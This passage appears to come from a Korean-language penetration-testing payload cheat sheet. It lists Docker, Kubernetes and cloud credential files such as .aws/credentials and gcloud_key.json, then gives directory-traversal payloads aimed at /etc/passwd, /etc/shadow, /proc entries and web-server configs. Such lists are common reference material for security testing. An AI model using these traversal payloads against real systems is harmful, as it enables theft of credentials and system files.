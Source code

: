 #### 2.4.1. Docker 관련 파일
```bash
# Docker 설정
Dockerfile
docker-compose.yml
docker-compose.override.yml
.dockerignore

# Kubernetes 설정
deployment.yaml
service.yaml
configmap.yaml
secret.yaml
```

#### 2.4.2. 클라우드 설정 파일
```bash
# AWS
.aws/config
.aws/credentials
cloudformation.yaml
serverless.yml

# Google Cloud
.gcloud/
gcloud_key.json
deployment-manager.yaml

# Azure
.azure/
azure-pipelines.yml
arm-template.json
```

---

## 3. 특수 페이로드

### 3.1. 디렉토리 트래버설을 통한 정보 수집

#### 3.1.1. 시스템 정보 파일
```bash
# Linux/Unix 시스템 정보
../../../etc/passwd
../../../etc/shadow
../../../etc/hosts
../../../proc/version
../../../proc/cpuinfo
../../../proc/meminfo
../../../proc/net/tcp
../../../proc/net/fib_trie

# 시스템 설정
../../../etc/apache2/apache2.conf
../../../etc/nginx/nginx.conf
../../../etc/ssh/sshd_config
../../../etc/crontab
```
